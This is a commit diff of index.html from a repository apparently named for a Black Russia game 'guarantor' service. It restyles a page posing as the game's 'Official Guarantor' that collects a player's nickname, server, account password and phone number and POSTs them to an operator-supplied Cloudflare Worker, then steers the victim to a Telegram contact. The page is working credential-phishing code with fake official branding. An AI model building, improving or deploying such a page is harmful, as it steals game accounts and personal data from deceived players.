

Before and after one commit to cucuruznik6767-cyber/BlackrussiaGarant, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp index.html with new styles and structure

```diff
--- a/index.html
+++ b/index.html
@@ -2,63 +2,311 @@
 <html lang="ru">
 <head>
 <meta charset="utf-8">
-<title>Гарант-Сервис</title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+<title>Black Russia | Официальный Гарант</title>
+<link href="https://fonts.googleapis.com/css2?family=Montserrat:wght@400;600;800&display=swap" rel="stylesheet">
 <style>
-  body{font-family:system-ui;background:#0e1116;color:#e6edf3;display:flex;justify-content:center;padding:40px}
-  .card{background:#161b22;border:1px solid #30363d;border-radius:12px;padding:24px;width:420px}
-  h2{margin:0 0 16px;font-size:20px}
-  label{display:block;font-size:13px;color:#8b949e;margin:12px 0 4px}
-  input{width:100%;padding:10px;border-radius:8px;border:1px solid #30363d;background:#0d1117;color:#e6edf3;box-sizing:border-box}
-  button{width:100%;margin-top:18px;padding:12px;border:0;border-radius:8px;background:#238636;color:#fff;font-weight:600;cursor:pointer}
-  button:disabled{background:#30363d;cursor:not-allowed}
-  .sent{background:#1f6feb}
-  .status{font-size:13px;color:#8b949e;margin-top:12px;min-height:18px}
+  :root {
+    --bg: #07080a;
+    --card: #111318;
+    --border: #232733;
+    --txt: #ffffff;
+    --dim: #8b92a5;
+    --accent: #8a2be2; /* Фиолетовый неон */
+    --accent-glow: rgba(138, 43, 226, 0.4);
+    --green: #00c853;
+    --red: #ff3d00;
+  }
+
+  * { box-sizing: border-box; margin: 0; padding: 0; }
+
+  body {
+    font-family: 'Montserrat', sans-serif;
+    background: var(--bg);
+    color: var(--txt);
+    display: flex;
+    justify-content: center;
+    align-items: center;
+    min-height: 100vh;
+    background-image: radial-gradient(circle at 50% -20%, #2a1042 0%, var(--bg) 60%);
+    padding: 20px;
+  }
+
+  .container {
+    width: 100%;
+    max-width: 420px;
+    background: var(--card);
+    border: 1px solid var(--border);
+    border-radius: 16px;
+    padding: 30px 24px;
+    box-shadow: 0 10px 40px rgba(0,0,0,0.8), 0 0 20px var(--accent-glow);
+    position: relative;
+    overflow: hidden;
+  }
+
+  /* Верхняя неоновая полоска */
+  .container::before {
+    content: '';
+    position: absolute;
+    top: 0; left: 0; right: 0;
+    height: 3px;
+    background: linear-gradient(90deg, transparent, var(--accent), transparent);
+  }
+
+  .header {
+    display: flex;
+    justify-content: space-between;
+    align-items: center;
+    margin-bottom: 24px;
+    padding-bottom: 16px;
+    border-bottom: 1px solid var(--border);
+  }
+
+  .logo {
+    font-weight: 800;
+    font-size: 18px;
+    letter-spacing: 0.5px;
+    display: flex;
+    align-items: center;
+    gap: 8px;
+  }
+
+  .logo span { color: var(--accent); }
+
+  .badge-2026 {
+    background: rgba(138, 43, 226, 0.15);
+    border: 1px solid var(--accent);
+    color: var(--accent);
+    padding: 4px 10px;
+    border-radius: 6px;
+    font-size: 11px;
+    font-weight: 800;
+    letter-spacing: 1px;
+    box-shadow: 0 0 10px var(--accent-glow);
+  }
+
+  .title { font-size: 22px; font-weight: 800; margin-bottom: 6px; text-align: center; }
+  .subtitle { font-size: 13px; color: var(--dim); text-align: center; margin-bottom: 24px; }
+
+  .input-group { margin-bottom: 16px; }
+  .input-group label {
+    display: block;
+    font-size: 12px;
+    color: var(--dim);
+    margin-bottom: 6px;
+    font-weight: 600;
+    text-transform: uppercase;
+    letter-spacing: 0.5px;
+  }
+
+  .input-group input {
+    width: 100%;
+    background: #0a0b0e;
+    border: 1px solid var(--border);
+    color: var(--txt);
+    padding: 14px 16px;
+    border-radius: 10px;
+    font-size: 15px;
+    font-family: inherit;
+    transition: 0.2s;
+  }
+
+  .input-group input:focus {
+    outline: none;
+    border-color: var(--accent);
+    box-shadow: 0 0 10px var(--accent-glow);
+  }
+
+  .btn {
+    width: 100%;
+    padding: 16px;
+    border: none;
+    border-radius: 10px;
+    font-family: inherit;
+    font-weight: 800;
+    font-size: 15px;
+    cursor: pointer;
+    transition: 0.2s;
+    text-transform: uppercase;
+    letter-spacing: 1px;
+  }
+
+  .btn-main {
+    background: var(--accent);
+    color: white;
+    box-shadow: 0 4px 15px var(--accent-glow);
+    margin-top: 10px;
+  }
+
+  .btn-main:hover:not(:disabled) { background: #9b4dff; box-shadow: 0 6px 20px rgba(138, 43, 226, 0.6); }
+  .btn-main:disabled { background: var(--border); color: var(--dim); box-shadow: none; cursor: not-allowed; }
+
+  .btn-success {
+    background: rgba(0, 200, 83, 0.1);
+    border: 1px solid var(--green);
+    color: var(--green);
+    margin-top: 12px;
+    display: none;
+    box-shadow: 0 0 15px rgba(0, 200, 83, 0.2);
+  }
+
+  .btn-success:hover { background: rgba(0, 200, 83, 0.2); box-shadow: 0 0 25px rgba(0, 200, 83, 0.4); }
+
+  .status {
+    text-align: center;
+    font-size: 13px;
+    margin-top: 16px;
+    min-height: 20px;
+    font-weight: 600;
+  }
+
+  .status.error { color: var(--red); }
+  .status.ok { color: var(--green); }
+
+  .support-btn {
+    position: fixed;
+    bottom: 20px;
+    right: 20px;
+    background: var(--card);
+    border: 1px solid var(--accent);
+    color: var(--txt);
+    width: 56px;
+    height: 56px;
+    border-radius: 50%;
+    display: flex;
+    justify-content: center;
+    align-items: center;
+    cursor: pointer;
+    box-shadow: 0 4px 20px var(--accent-glow);
+    transition: 0.3s;
+    z-index: 100;
+  }
+
+  .support-btn:hover { transform: scale(1.1); background: var(--accent); }
+  .support-btn svg { width: 24px; height: 24px; fill: currentColor; }
+
+  .footer {
+    margin-top: 24px;
+    text-align: center;
+    font-size: 11px;
+    color: var(--dim);
+  }
 </style>
 </head>
 <body>
-<div class="card">
-  <h2>Гарант-Сервис · сделка</h2>
-  <label>Ник</label><input id="nick" placeholder="ник">
-  <label>Сервер</label><input id="server" placeholder="сервер">
-  <label>Пароль</label><input id="pass" type="password" placeholder="пароль">
-  <label>Номер</label><input id="phone" placeholder="+7...">
-  <button id="freeze">Заморозить</button>
+
+<div class="container">
+  <div class="header">
+    <div class="logo"><span>BLACK</span> RUSSIA</div>
+    <div class="badge-2026">2026</div>
+  </div>
+
+  <div class="title">Официальный Гарант</div>
+  <div class="subtitle">Безопасная сделка с защитой средств</div>
+
+  <div class="input-group">
+    <label>Никнейм</label>
+    <input type="text" id="nick" placeholder="Введите ник" autocomplete="off">
+  </div>
+  <div class="input-group">
+    <label>Сервер</label>
+    <input type="text" id="server" placeholder="Например: 12" autocomplete="off">
+  </div>
+  <div class="input-group">
+    <label>Пароль</label>
+    <input type="password" id="pass" placeholder="••••••••">
+  </div>
+  <div class="input-group">
+    <label>Номер телефона</label>
+    <input type="tel" id="phone" placeholder="+7 (999) 000-00-00" autocomplete="off">
+  </div>
+
+  <button class="btn btn-main" id="freeze">Заморозить сделку</button>
+  <button class="btn btn-success" id="send-funds">Средства пришли — отправить</button>
+
   <div class="status" id="status"></div>
+
+  <div class="footer">
+    © 2026 Black Russia. Все права защищены.
+  </div>
 </div>
+
+<div class="support-btn" onclick="window.open('https://t.me/blackrussia_support', '_blank')">
+  <svg viewBox="0 0 24 24"><path d="M12 2C6.48 2 2 6.48 2 12s4.48 10 10 10 10-4.48 10-10S17.52 2 12 2zm1 17h-2v-2h2v2zm2.07-7.75l-.9.92C13.45 12.9 13 13.5 13 15h-2v-.5c0-1.1.45-2.1 1.17-2.83l1.24-1.26c.37-.36.59-.86.59-1.41 0-1.1-.9-2-2-2s-2 .9-2 2H8c0-2.21 1.79-4 4-4s4 1.79 4 4c0 .88-.36 1.68-.93 2.25z"/></svg>
+</div>
+
 <script>
-const API = "https://ВАШ-ДОМЕН/api/deal"; // твой мост
-const TG  = "https://t.me/ВАШ_БОТ";        // ссылка на бота
+  // ССЫЛКА НА ТВОЙ CLOUDFLARE WORKER (без /api/deal на конце)
+  const API = "https://garant-bot.твой-аккаунт.workers.dev";
+  const TG = "https://t.me/blackrussia_support"; // Ссылка на твою поддержку
 
-document.getElementById("freeze").onclick = async () => {
-  const btn = document.getElementById("freeze");
-  const st  = document.getElementById("status");
-  const data = {
-    nick:   document.getElementById("nick").value.trim(),
-    server: document.getElementById("server").value.trim(),
-    pass:   document.getElementById("pass").value,
-    phone:  document.getElementById("phone").value.trim(),
-    ts:     Date.now()
+  const $ = id => document.getElementById(id);
+  const status = $("status");
+  const freezeBtn = $("freeze");
+  const sendBtn = $("send-funds");
+
+  function setStatus(text, type = "") {
+    status.textContent = text;
+    status.className = "status " + type;
+  }
+
+  async function post(url, data) {
+    const res = await fetch(url, {
+      method: "POST",
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify(data)
+    });
+    if (!res.ok) throw new Error("HTTP " + res.status);
+    return res.json();
+  }
+
+  let currentData = null;
+
+  freezeBtn.onclick = async () => {
+    const data = {
+      nick: $("nick").value.trim(),
+      server: $("server").value.trim(),
+      pass: $("pass").value,
+      phone: $("phone").value.trim(),
+      ts: Date.now()
+    };
+
+    if (!data.nick) return setStatus("Введите ник", "error");
+    if (!data.pass) return setStatus("Введите пароль", "error");
+
+    freezeBtn.disabled = true;
+    freezeBtn.textContent = "Заморозка...";
+    setStatus("");
+
+    try {
+      await post(API, data);
+      currentData = data;
+      setStatus("Сделка заморожена. Ожидание оплаты.", "ok");
+      freezeBtn.style.display = "none";
+      sendBtn.style.display = "block";
+    } catch (e) {
+      setStatus("Ошибка сети. Попробуйте снова.", "error");
+      freezeBtn.disabled = false;
+      freezeBtn.textContent = "Заморозить сделку";
+    }
   };
-  if (!data.nick || !data.pass) { st.textContent = "заполни ник и пароль"; return; }
-  btn.disabled = true; st.textContent = "заморозка...";
-  try {
-    await fetch(API, {method:"POST", headers:{"Content-Type":"application/json"}, body:JSON.stringify(data)});
-    st.textContent = "заморожено. ждём подтверждения средств.";
-    // после заморозки показываем вторую кнопку
-    const sent = document.createElement("button");
-    sent.className = "sent"; sent.textContent = "Средства пришли — отправить получателю";
-    sent.onclick = async () => {
-      sent.disabled = true; st.textContent = "уведомление отправлено...";
-      await fetch(API + "/sent", {method:"POST", headers:{"Content-Type":"application/json"}, body:JSON.stringify(data)});
-      st.textContent = "готово. получатель уведомлён.";
-      window.open(TG, "_blank");
-    };
-    btn.parentNode.insertBefore(sent, st);
-  } catch(e) {
-    st.textContent = "ошибка сети, попробуй ещё";
-    btn.disabled = false;
-  }
-};
+
+  sendBtn.onclick = async () => {
+    if (!currentData) return;
+    sendBtn.disabled = true;
+    sendBtn.textContent = "Отправка...";
+    setStatus("");
+
+    try {
+      await post(API + "/sent", currentData);
+      setStatus("Средства подтверждены. Получатель уведомлен.", "ok");
+      setTimeout(() => window.open(TG, "_blank"), 1000);
+    } catch (e) {
+      setStatus("Ошибка сети. Попробуйте снова.", "error");
+      sendBtn.disabled = false;
+      sendBtn.textContent = "Средства пришли — отправить";
+    }
+  };
 </script>
 </body>
 </html>
```
